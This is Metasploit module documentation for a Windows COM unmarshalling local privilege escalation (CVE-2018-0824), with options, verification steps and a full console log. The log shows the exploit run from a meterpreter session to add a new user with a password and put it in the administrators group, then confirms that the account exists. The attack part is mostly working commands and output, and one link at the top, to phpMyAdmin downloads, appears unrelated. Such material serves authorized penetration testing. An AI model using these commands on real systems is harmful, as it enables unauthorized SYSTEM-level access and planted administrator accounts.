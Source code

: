 ## Overview
This is a post exploitation module for local privilege escalation bug
which exists in Microsoft COM for windows when it fails to properly
handle serialized objects.

* https://www.phpmyadmin.net/downloads/
* https://github.com/codewhitesec/UnmarshalPwn/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-0824

## Options

"COMMAND" This command will be executed on successful escalation.</br>
"SESSION" The session to run this module on.

## Limitations

The payload will not spawn ant independent session it simply creates process with the system privilege.
If the system is not vulnerable, then payload will execute but new process will not spawn.

## Verification steps

If you want to confirm the vulnerability before you add user or perform any other sensitive action. 

1. `set COMMAND /s notepad.exe` 
2. `run` 

Confirmation:

Then go to meterpreter session and confirm running process (ps)
If you see notepad.exe running as SYSYEM then that is as indication of vulnerable system.

## Usage

```
meterpreter > sysinfo
Computer        : WIN10X64-1703
OS              : Windows 10 (Build 15063).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > execute -f cmd.exe -i -H
Process 4868 created.
Channel 7 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>exit           
exit
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/escalate/unmarshal_cmd_exec) > show options

Module options (post/windows/escalate/unmarshal_cmd_exec):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMMAND                        no        The command to execute as SYSTEM (Can only be a cmd.exe builtin or Windows binary, (net user /add %RAND% %RAND% & net localgroup administrators /add <user>).
   EXPLOIT_NAME                   no        The filename to use for the exploit binary (%RAND% by default).
   PATH                           no        Path to write binaries (%TEMP% by default).
   SCRIPT_NAME                    no        The filename to use for the COM script file (%RAND% by default).
   SESSION                        yes       The session to run this module on.

msf5 post(windows/escalate/unmarshal_cmd_exec) > set command 'net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt'
command => net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
msf5 post(windows/escalate/unmarshal_cmd_exec) > set verbose true
verbose => true
msf5 post(windows/escalate/unmarshal_cmd_exec) > run

[!] SESSION may not be compatible with this module.
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] exploit path is: C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] script path is: C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] command is: net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] Attempting to PrivEsc on WIN10X64-1703 via session ID: 1
[*] Uploading Script to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Creating the sct file with command net user /add egypt h@ks4shellz  & net localgroup administrators /add egypt
[*] script_template_data.length =  306
[*] Writing 376 bytes to C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct to target
[*] Script uploaded successfully
[*] Uploading Exploit to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Exploit uploaded on WIN10X64-1703 to C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] Launching Exploit...
[*] Query for IStorage
Call:  Stat
End:  Stat
Query for IMarshal
Call:  GetMarshalSizeMax
Unknown IID: {ECC8691B-C1DB-4DC0-855E-65F6C551AF49} 0000017F6C3E05B0
Query for IMarshal
Call:  GetUnmarshalClass
Call:  GetMarshalSizeMax
Call:  MarshalInterface
[+] Exploit Completed
[*] C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\hylZVjgbLrd.exe
[*] C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\NCYcABO.sct
[*] Post module execution completed
msf5 post(windows/escalate/unmarshal_cmd_exec) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > execute -f cmd.exe -i -H
Process 1780 created.
Channel 11 created.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\msfuser\Downloads>net user 
net user

User accounts for \\WIN10X64-1703

-------------------------------------------------------------------------------
Administrator            DefaultAccount           egypt                    
Guest                    msfuser                  
The command completed successfully.


C:\Users\msfuser\Downloads>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
egypt
msfuser
The command completed successfully.


C:\Users\msfuser\Downloads>

```
